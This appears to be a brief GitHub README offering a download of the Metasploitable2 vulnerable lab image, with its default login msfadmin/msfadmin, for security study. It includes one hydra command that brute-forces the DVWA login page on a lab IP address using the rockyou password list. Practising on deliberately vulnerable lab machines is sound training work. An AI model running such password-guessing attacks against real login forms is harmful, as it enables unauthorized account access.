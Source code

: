 # VDI-Metasploitable2

<img src="https://github.com/ghostn4444/VDI-Metasploitable2/blob/main/img1.png">

 Metasploitable.vdi ![Link Donwload]('https://drive.google.com/file/d/1tnnVqxueOxc8KCv0LF0kxEC7SvR7Wba8/view')

#

### LOGIN
* Login: <code>msfadmin</code><br/>
* Password: <code>msfadmin</code>

# good studies!

hydra dvwa get USERS

```bash
  hydra -l admin -P /home/kali/rockyou.txt 192.168.15.28 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&:Login=Conecte-se"
```
